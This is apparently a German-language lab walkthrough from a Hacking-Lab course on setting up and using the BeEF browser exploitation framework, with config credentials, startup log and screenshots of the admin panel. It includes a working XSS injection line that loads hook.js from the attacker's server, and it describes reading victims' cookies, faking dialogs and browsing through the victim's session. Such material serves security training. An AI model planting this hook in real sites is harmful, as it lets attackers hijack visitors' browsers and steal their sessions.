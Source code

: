 # BeeF (Browser Exploitation Framework)
## Konfiguration Beef Login Credentials
Um Beef auf der Hacking-Lab LiveCD zu starten, muss man zuerst die Login Credentials anpassen. Ansonsten startet das Tool nicht. 
```
Edit /etc/beef-xss/config.yaml
```



ORIGINAL Credentials:
```
    credentials:
        user:   "beef"
        passwd: "beef"
```

NEUE Credentials:
```
    credentials:
        user:   "admin"
        passwd: "compass"
```


## Starten von Beef in einem "root terminal"

```
cd /usr/share/beef-xss
./beef
```

Startup Notification beim Starten von beef
```
╰─$ ./beef 
[12:58:03][*] Browser Exploitation Framework (BeEF) 0.4.7.1-alpha
[12:58:03]    |   Twit: @beefproject
[12:58:03]    |   Site: https://beefproject.com
[12:58:03]    |   Blog: http://blog.beefproject.com
[12:58:03]    |_  Wiki: https://github.com/beefproject/beef/wiki
[12:58:03][*] Project Creator: Wade Alcorn (@WadeAlcorn)
[12:58:04][*] BeEF is loading. Wait a few seconds...
[12:58:07][*] 8 extensions enabled:
[12:58:07]    |   Proxy
[12:58:07]    |   Requester
[12:58:07]    |   Admin UI
[12:58:07]    |   XSSRays
[12:58:07]    |   Network
[12:58:07]    |   Social Engineering
[12:58:07]    |   Events
[12:58:07]    |_  Demos
[12:58:07][*] 300 modules enabled.
[12:58:07][*] 6 network interfaces were detected.
[12:58:07][*] running on network interface: 127.0.0.1
[12:58:07]    |   Hook URL: http://127.0.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 192.168.134.131
[12:58:07]    |   Hook URL: http://192.168.134.131:3000/hook.js
[12:58:07]    |_  UI URL:   http://192.168.134.131:3000/ui/panel
[12:58:07][*] running on network interface: 172.17.0.1
[12:58:07]    |   Hook URL: http://172.17.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.17.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 172.19.0.1
[12:58:07]    |   Hook URL: http://172.19.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.19.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 172.18.0.1
[12:58:07]    |   Hook URL: http://172.18.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.18.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 10.201.2.110
[12:58:07]    |   Hook URL: http://10.201.2.110:3000/hook.js
[12:58:07]    |_  UI URL:   http://10.201.2.110:3000/ui/panel
[12:58:07][*] RESTful API key: a49efd6e94d79221cbad78dc07553e0fd37ca35e
[12:58:07][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[12:58:07]    |_  Run geoipupdate to install
[12:58:07][*] HTTP Proxy: http://127.0.0.1:6789
```

## Attack & Exploit URLs
* Injection `<script src="http://10.201.2.110:3000/hook.js"></script>`
* Admin URL `http://10.201.2.110:3000/ui/panel`
* Proxy URL `http://127.0.0.1:6789`

## Injection
Hook bei der verwundbaren Seite einfügen

![inject](../images/inject.png)

## Admin Panel
Beim Angreifer erscheint das Opfer in der Admin Console

![admin](../images/adminpanel.png)

* Cookies auslesen
* Browser Plug-ins auslesen
* Dialoge faken

## Beef Proxy 
Man kann einen Browser derart konfigurieren, dass dieser den Beef Proxy verwendet. Damit surft der Angreifer quasi gleich wie das Opfer. 

![proxy](../images/proxy.png)

Danach kann der Angreifer so surfen wie es das Opfer sieht. 

![xssshell](../images/xssshell.png)




